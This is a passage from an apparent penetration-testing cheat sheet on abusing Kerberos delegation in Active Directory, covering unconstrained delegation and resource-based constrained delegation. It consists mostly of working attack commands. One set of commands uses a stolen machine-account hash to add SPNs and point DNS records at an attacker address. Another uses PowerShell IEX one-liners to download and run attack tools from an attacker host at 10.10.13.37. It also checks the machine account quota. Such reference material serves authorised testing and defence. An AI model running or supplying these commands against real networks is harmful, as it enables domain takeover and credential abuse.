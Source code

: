 ```
$ python addspn.py -u 'megacorp.local\SRV01$' -p :fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local -r DC01.megacorp.local --additional
$ python dnstool.py -u 'megacorp.local\SRV01$' -p :fc525c9683e8fe067095ba2ddc971889 -r evil.megacorp.local -d <ATTACKER_IP> --action remove DC01.megacorp.local
 # Check if the SPN was deleted successfully
$ ./go-windapsearch --dc 192.168.1.11 -d megacorp.local -u 'SRV01$' --hash fc525c9683e8fe067095ba2ddc971889 -m computers --attrs servicePrincipalName | grep SRV01
```

Other scenarios:

* In [this](https://exploit.ph/user-constrained-delegation.html) blogpost it is described how to perform the attack by abusing a **service** (user) account with unconstrained delegation enabled.
* In [this](https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/) blogpost it is described how to perform the attack from Windows by extracting TGT with Inveigh.




## Resource-Based Constrained Delegation (RBCD)

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
* [https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/](https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/)



### RBCD from Windows

Load tools:

```
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powermad.ps1")
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powerview4.ps1")
```

Check if `ms-DS-MachineAccountQuota` allows to create new machine accounts:

```
PS > $root = [ADSI]"LDAP://RootDSE"
PS > $root.rootDomainNamingContext
DC=megacorp,DC=local
PowerView3 > Get-DomainObject -Identity "DC=megacorp,DC=local" | select ms-ds-machineaccountquota

ms-ds-machineaccountquota
-------------------------
                       10
```
